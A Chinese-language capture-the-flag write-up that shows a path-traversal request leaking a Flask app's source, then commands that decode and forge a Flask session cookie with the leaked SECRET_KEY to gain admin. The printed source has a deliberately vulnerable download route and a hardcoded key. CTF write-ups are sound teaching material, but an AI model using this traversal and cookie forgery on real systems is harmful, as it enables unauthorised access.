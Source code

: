 抓包访问:`/download?**file**=**../../../app/app.py`,获取app.py

```python
from flask import *
import os
import random
from flag import flag

#初始化全局变量
app = Flask(__name__)
app.config['SECRET_KEY'] = 'tanji_is_A_boy_Yooooooooooooooooooooo!'

@app.route('/', methods=['GET'])
def index():  
    return render_template('index.html')


@app.route('/getwifi', methods=['GET'])
def getwifi():
    session['isadmin']=False
    wifi=random.choice(os.listdir('static/img'))
    session['current_wifi']=wifi
    return render_template('getwifi.html',wifi=wifi)



@app.route('/download', methods=['GET'])
def source(): 
    filename=request.args.get('file')
    if 'flag' in filename:
        return jsonify({"msg":"你想干什么？"})
    else:
        return send_file('static/img/'+filename,as_attachment=True)


@app.route('/secret_path_U_never_know',methods=['GET'])
def getflag():
    if session['isadmin']:
        return jsonify({"msg":flag})
    else:
        return jsonify({"msg":"你怎么知道这个路径的？不过还好我有身份验证"})



if __name__ == '__main__':
    app.run(host='0.0.0.0',port=80,debug=True)
```

利用脚本

![image-20240927211231285](https://gitee.com/bx33661/image/raw/master/path/image-20240927211231285.png)

```powershell
PS E:\gitcode\flask-session-cookie-manager-1.2.1.1\flask-session-cookie-manager-1.2.1.1> python flask_session_cookie_manager3.py decode -s "tanji_is_A_boy_Yooooooooooooooooooooo!" -c "eyJjdXJyZW50X3dpZmkiOiJhYWVjMGE0MTI1NzJjMDI2NDVlMGI3YzRjNDA2MjY4Ny5qcGciLCJpc2FkbWluIjpmYWxzZX0.ZvaqAQ.07y3w0u5sIHL5lLISFxYEHBkEAA"
{'current_wifi': 'aaec0a412572c02645e0b7c4c4062687.jpg', 'isadmin': False}
PS E:\gitcode\flask-session-cookie-manager-1.2.1.1\flask-session-cookie-manager-1.2.1.1> python flask_session_cookie_manager3.py encode -s 'tanji_is_A_boy_Yooooooooooooooooooooo!' -t "{'current_wifi': 'aaec0a412572c02645e0b7c4c4062687.jpg', 'isadmin': True}"
eyJjdXJyZW50X3dpZmkiOiJhYWVjMGE0MTI1NzJjMDI2NDVlMGI3YzRjNDA2MjY4Ny5qcGciLCJpc2FkbWluIjp0cnVlfQ.Zvautg.i2XEAZq0w33ebU8IOfvsc1ULaRI
```
